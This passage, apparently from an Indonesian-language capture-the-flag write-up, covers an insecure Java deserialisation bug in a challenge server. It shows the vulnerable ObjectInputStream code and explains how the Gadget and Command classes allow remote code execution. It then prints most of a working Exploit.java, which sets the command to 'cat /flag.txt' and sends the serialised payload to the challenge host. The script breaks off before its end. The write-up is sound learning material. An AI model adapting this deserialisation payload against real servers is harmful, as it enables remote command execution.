 ```java
try (ObjectInputStream objectInputStream = new ObjectInputStream(exchange.getRequestBody())) {
    String response = "";
    try {
        response = objectInputStream.readObject().toString();
    } catch (ClassNotFoundException | IOException e) {
        e.printStackTrace();
        response = e.toString();
    }
    // ...
}
```

- Hal tersebut bisa menyebabkan RCE karena server langsung menerima objek yang diserialkan tanpa memvalidasinya terlebih dulu.
- Ditambah lagi ada class `Gadget` dan `Command` yang dapat membuat proses eksploitasi lebih mudah. Di mana class `Command` memungkinkan eksekusi perintah sistem secara langsung. Dan class `Gadget` akan memanggil method `run()` dari `Command` saat `toString()` dipanggil.
- Kemudian saya diberikan script `Exploit.java` menggunakan **Reflection** oleh AI untuk mencoba RCE. Setelah beberapa kali penyesuaian karena issue package-package di Java akhirnya bisa juga :))
- Berikut ini adalah exploit scriptnya:

```java
// Script ini terletak di `src/main/java`

import com.dimas.Command;
import com.dimas.Gadget;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;

public class Exploit {
    public static void main(String[] args) throws Exception {
        // Buat objek Command menggunakan konstruktor tanpa argumen
        Command cmd = new Command();
        
        // Gunakan refleksi untuk mengakses dan mengubah field 'command'
        Field commandField = Command.class.getDeclaredField("command");
        commandField.setAccessible(true);
        commandField.set(cmd, "cat /flag.txt");
        
        // Bungkus Command dalam Gadget
        Gadget gadget = new Gadget(cmd);
        
        // Serialisasi objek Gadget
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(gadget);
        oos.close();
        
        // Encode payload ke Base64
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        
        // Kirim payload ke server
        URL url = new URL("http://ctf.slashrootctf.id:30013");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("POST");
        con.setDoOutput(true);
        con.getOutputStream().write(Base64.getDecoder().decode(payload));
        
        // Baca respons dari server
```